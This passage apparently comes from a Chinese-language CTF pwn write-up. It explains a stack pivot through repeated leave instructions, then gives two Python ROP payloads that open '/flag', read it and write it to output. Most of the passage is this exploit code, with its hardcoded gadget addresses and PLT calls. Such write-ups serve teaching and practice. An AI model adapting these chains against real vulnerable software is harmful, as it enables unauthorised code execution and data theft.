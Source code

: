 算好之后就可以再来一次read了

这一次通过两次leave把rsp=buf+0x300+8

然后构造open('/flag', 0)的参数

之后要再次pop新rbp=buf + 0x500 +80，再调用read，也就是新一轮栈在buf + 0x500

```python
payload = ((b'/flag\x00\x00\x00' +
            p64(0x04011C5) + p64(buf + 0x300) + p64(pop_rsi) + p64(0) + p64(open_addr) +
            p64(0x04011C8) + p64(buf + 0x500+0x80) + p64(0x04011EF)
            ).ljust(0x80,b'\x00') + p64(buf+0x300) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

栈来到了buf + 0x500这边，这次调用read读然后直接put

```python
payload = ((b'BBBBBBB\x00' +
            p64(pop_rdx) + p64(0x100) + p64(0) +
            p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(buf) +
            p64(read_plt) +
            p64(pop_rdi) + p64(buf) + p64(write_plt)
            ).ljust(0x80,b'\x00') + p64(buf+0x500) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

最后直接接收flag就好了

![](../images/2024-10-24-18-25-55-image.png)

---

@PHOEXINA
